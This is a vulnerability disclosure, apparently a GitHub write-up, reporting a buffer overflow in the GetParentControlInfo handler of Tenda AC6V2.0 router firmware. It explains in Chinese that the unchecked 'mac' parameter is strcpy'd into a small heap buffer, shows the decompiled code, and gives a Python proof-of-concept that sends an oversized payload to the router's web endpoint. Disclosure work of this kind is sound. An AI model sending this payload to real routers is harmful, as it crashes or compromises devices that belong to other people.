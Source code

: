 # Tenda AC6V2.0_V15.03.06.23_multi firmware is vulnerable to Buffer Overflow via function "GetParentControlInfo"

Firmware download website:

[AC6V2.0升级软件_腾达(Tenda)官方网站](https://www.tenda.com.cn/material/show/102855)

在GetParentControlInfo函数中，通过websGetVar获得用户输入的mac，并未对其进行输入验证，直接使用strcpy写入pc_info->mac_addr,而pc_info通过malloc创建的空间只有0x254大小。因此会造成溢出。

```c
mac_addr = websGetVar(wp, "mac", byte_519A28);//get mac value
pc_info = (parent_control_info *)malloc(0x254u);
memset(pc_info, 0, sizeof(parent_control_info));
strcpy((char *)pc_info->mac_addr, mac_addr);//overflow
```

![image-20250614161657528](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250614161657528.png)

poc

```python
import requests
def send_payload(url, payload):
    params={'mac':payload}
    response = requests.get(url, params=params)
    print(f"Status Code: {response.status_code}")
    print(f"Response Text: {response.text}")

payload=b'a'*0x2048+b"\xef\xbe\xad\xde"
url="http://192.168.1.1/goform/GetParentControlInfo"
send_payload(url, payload)   
```

![image-20250614171717338](https://kingimg.oss-cn-hangzhou.aliyuncs.com/img/image-20250614171717338.png)

